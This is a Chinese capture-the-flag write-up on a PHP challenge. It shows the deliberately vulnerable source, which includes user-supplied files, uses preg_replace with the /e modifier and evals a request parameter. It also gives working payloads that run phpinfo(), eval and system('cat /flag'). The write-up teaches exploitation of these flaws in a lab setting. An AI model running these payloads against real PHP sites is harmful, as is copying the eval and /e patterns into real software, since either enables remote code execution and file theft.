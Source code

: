 # 知识点：

# 1. php伪协议

# 2. 文件包含

# 3. preg_replace命令执行



参考链接：

https://xz.aliyun.com/t/2557



# 1. 打开题目发现和zjctf2019的逆转思维很像



index直接给出源码：

```javascript
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```



payload:

```javascript
get:
    
```



得到next.php的源码：

![](images/0822C02484FA4C07861FE2259A92A945clipboard.png)



```javascript
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
    @eval($_GET['cmd']);
}
```



# 2. 接下来就和zjctf2019的题不一样

需要使用preg_replace()函数的命令执行



参考：https://xz.aliyun.com/t/2557

payload:

```javascript
/next.php?\S*={${phpinfo()}}
```



![](images/4B66A5A6EC544EF4A3C684FBE5AD3741clipboard.png)



# 3. 接下来就需要调用next的getFlag函数进行，命令执行

注意：eval函数只是能够执行其他函数，并不能执行系统命令，例如cat，所以需要借助system函数

其实eval函数的原理就是将字符串，拼接到源代码中。

```javascript
/next.php?\S*={${getFlag()}}&cmd=system('cat%20/flag');
```



![](images/970505B5B99549B58E625645CE63749Bclipboard.png)



也可以不使用getFlag函数

```javascript
get:
    /next.php?\S*=${eval($_POST[a])}
post:
    a=system("cat /flag");
```

